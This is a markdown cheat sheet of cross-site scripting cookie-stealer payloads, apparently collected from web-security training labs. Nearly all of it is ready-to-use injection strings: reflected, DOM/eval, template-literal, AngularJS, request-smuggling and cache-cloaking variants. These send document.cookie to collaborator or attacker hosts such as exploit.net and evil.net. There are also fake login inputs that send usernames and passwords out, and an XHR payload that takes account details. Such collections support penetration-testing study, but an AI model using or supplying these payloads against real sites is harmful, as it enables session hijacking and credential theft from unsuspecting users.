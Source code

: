 
# CookieStealer XSS Payloads  

>XSS Cookie Stealer payloads using JavaScript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>JavaScript Template literals are enclosed by backtick ( \` ) characters instead of double or single quotes.  

```JavaScript
${document.location='https://tvsw9dim0doynnpscx9mgtq67xdo1jp8.oastify.com/?cookies='+document.cookie;}
```  

![JavaScript template string](../images/javascript-template-string.png)  

>AngularJS DOM XSS Attack **constructor** payloads  

```JavaScript
{{$on.constructor('alert(1)')()}}
```

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  
  
>HTTP request smuggling to deliver reflected XSS  

```JavaScript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>Web Cache Parameter cloaking - script ```/js/geolocate.js```, executing the callback function ```setCountryCookie()```  
  
```JavaScript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```  

>More Cross-Site Scripting (XSS) example cookie stealer payloads.  

```JavaScript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

```JavaScript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```  

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```

```Javascript
<img src=x onerror=this.src=//exploit.net/?'+document.cookie;>
```

```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```
